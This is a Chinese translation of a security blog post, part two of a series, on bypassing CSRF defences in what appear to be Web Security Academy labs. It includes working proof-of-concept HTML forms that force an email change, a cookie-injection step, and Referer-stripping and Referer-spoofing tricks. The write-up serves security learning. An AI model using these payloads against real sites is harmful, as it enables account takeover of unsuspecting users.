# 绕过 CSRF 保护(二)

> 原文：<https://infosecwriteups.com/bypassing-csrf-protection-ii-b479009b4a7a?source=collection_archive---------0----------------------->

嗨，我的名字是**哈沙尔·穆贾希德**，在这篇博客中，我们将讨论一些绕过 csrf 保护的**技术。**



如果你想了解 csrf 是什么，你可以在这里阅读我以前的博客。

[](/cross-site-request-forgery-csrf-explained-and-exploited-i-db464a61a582) [## 跨站点请求伪造(CSRF)解释和利用 I

### 嗨！这篇博客将教你 CSRF 袭击是如何发生的，以及我们如何预防它们。

infosecwriteups.com](/cross-site-request-forgery-csrf-explained-and-exploited-i-db464a61a582) 

和旁路技术第 1 部分:

[](/bypassing-csrf-protection-i-bc014384d0aa) [## 绕过 CSRF 保护(一)

### 嗨，我的名字是哈沙尔·穆贾希德，在这篇博客中，我们将讨论一些绕过 csrf 保护的技术。

infosecwriteups.com](/bypassing-csrf-protection-i-bc014384d0aa) 

因此，今天我们将研究一些绕过 web 应用程序的 CSRF 保护的技术。

**5: CSRF，其中令牌被绑定到非会话 cookie:**

有时 csrf 令牌被绑定到 cookie，但是该 cookie 与用户的会话无关。这是因为应用程序使用了两个不同的框架，一个用于会话处理，一个用于 csrf 保护，而这两个框架没有集成在一起。

示例:

```
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF;**csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv ==> Non Session Cookie** csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

这看起来是安全的，并且在大多数情况下是安全的，但是如果应用程序允许任何允许攻击者设置 cookie 的行为，那么攻击者可以很容易地创建一个帐户，获得有效的 csrf 令牌和相关联的 cookie，并将其合并到他的有效负载中，以实现他的目标。

所以我们需要绕过他的保护。

*   csrf 会话处理框架和用户会话处理框架不应相互集成。
*   web 应用程序允许某种行为，使得攻击者能够在受害者的浏览器中设置自己的 csrfkey cookie。
*   创建一个有效负载。



我们可以尝试插入另一个用户的令牌，看看我们的请求是否通过。



我们可以看到我们的请求有一个 csrf 密钥 cookie 和一个 csrf 令牌，它们被捆绑在一起，没有与用户会话框架集成。

因此，为了绕过这一点，我们需要在受害者的浏览器中设置我们的 csrf 密钥，有点像**头注入**。



我们可以看到搜索功能在浏览器中设置了最后一个搜索项 cookie，我们可以使用此行为在受害者的浏览器中设置 csrfkey cookie。



我们可以看到，在我们的测试案例中，我们能够将攻击者的 csrf 密钥注入受害者的浏览器。现在，困难的部分已经完成。我们只需创建一个有效负载，利用此漏洞首先在受害者的浏览器中设置 cookie，然后发出请求。

如果你想知道如何在没有打嗝专家的情况下生成 csrf 有效载荷，请阅读我之前的[博客](https://medium.com/@hasharmujahid/cross-site-request-forgery-csrf-explained-and-exploited-i-db464a61a582)。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="[https://0aac003c049cebe3c022c94800810065.web-security-academy.net/my-account/change-email](https://0aac003c049cebe3c022c94800810065.web-security-academy.net/my-account/change-email)" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="hidden" name="csrf" **value="Kv7fuJJyHThqZ8EEwtoABb5JQ5QkwF8G"** />
      <input type="submit" value="Submit request" />
    </form>
  
  </body>
</html>
```

img 标记有一个 URL，它将我们的 cookie 注入受害者的浏览器，并在此之后提交表单。



交给受害者。



**6:令牌在 cookie 中重复的 CSRF:**

有些应用程序只是复制 csrfkey cookie 和 csrf 令牌的值。在这种情况下，如果应用程序允许某些 cookie 设置漏洞，攻击者就不必获得有效的 csrf 密钥。他只需要在 cookie 和令牌中设置相同的值。

这种类型的辩护被称为双重提交辩护。在这种情况下，csrf 值是否有效并不重要，因为它们是相等的。



我们可以利用搜索功能中的相同漏洞在受害者的浏览器中设置 cookie 并生成 POC。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="[https://0af6009a04e9f129c0763b54001100de.web-security-academy.net/my-account/change-email](https://0af6009a04e9f129c0763b54001100de.web-security-academy.net/)" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="hidden" name="csrf" value="**fake**" />
      <input type="submit" value="Submit request" />
    </form>
 
  </body>
  </body>
</html>
```

现在把有效载荷交给受害者。

**7: CSRF，其中引用验证取决于是否存在标头:**

除了基于 CSRF 令牌的保护，一些应用程序使用 HTTP Referer 标头来尝试对抗 CSRF 攻击，通常是通过确认请求来自应用程序自己的域。这种策略通常不太有效，并且经常被规避。

如果 refer 头不存在，某些应用程序会跳过验证。



如果我们修改 referer 头。



我们的请求失败了。

如果我们删除引用头。



我们的请求完成了。

因此，在这种情况下，我们需要欺骗受害者的浏览器在发送恶意请求时丢弃 referer 标头，以便跳过验证。

我们可以通过添加

```
<meta name="referrer" content="no-referrer">
```

在我们的概念证明中。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="[https://0a790074041efac7c0689f7200ac001e.web-security-academy.net/my-account/change-email](https://0a790074041efac7c0689f7200ac001e.web-security-academy.net/my-account/change-email)" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="submit" value="Submit request" />
**<meta name="referrer" content="no-referrer">**
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```



**8: CSRF 与碎 Referer 验证:**

一些应用程序通过检查域来验证 referer 报头，如果请求来自允许的域列表，则处理该请求，如果来自不同的域，则拒绝该请求，但是由于不同解析器对 URL 的处理和解析，这种保护可以被绕过。



当请求来自同一个域时，我们可以看到请求是成功的。

让我们尝试删除 referer 标头



这次运气不好，所以我们需要绕过这个保护。



不起作用，但如果我们最后添加了有效的域 id。



我们的请求被接受了。

所以我们知道我们的应用程序检查域名是否包含在 referer 头中，而不是绝对 URL。

我们必须对我们的有效负载概念验证进行一些更改，以包含我们应用程序的有效域。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '**/?0a0b001d046155a9c07ad817000500af.web-security-academy.net**')</script>
    <form action="[https://0a0b001d046155a9c07ad817000500af.web-security-academy.net/my-account/change-email](https://0a0b001d046155a9c07ad817000500af.web-security-academy.net/my-account/change-email)" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

历史推送状态函数中的第三个参数是 URL，所以我们已经知道是否像这样提供我们的头

```
Referer:  http://hacker.com/[?0a0b001d046155a9c07ad817000500af.web-security-academy.net](https://exploit-0abe00f7041d5521c010d8d30126006c.web-security-academy.net/exploit?0a0b001d046155a9c07ad817000500af.web-security-academy.net)
```

它将被接受，因此我们可以提供应用程序的域是函数中的查询参数，该参数将被追加。



今天到此为止。如果你喜欢这个，请考虑关注。

直到那时:快乐的黑客❤

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！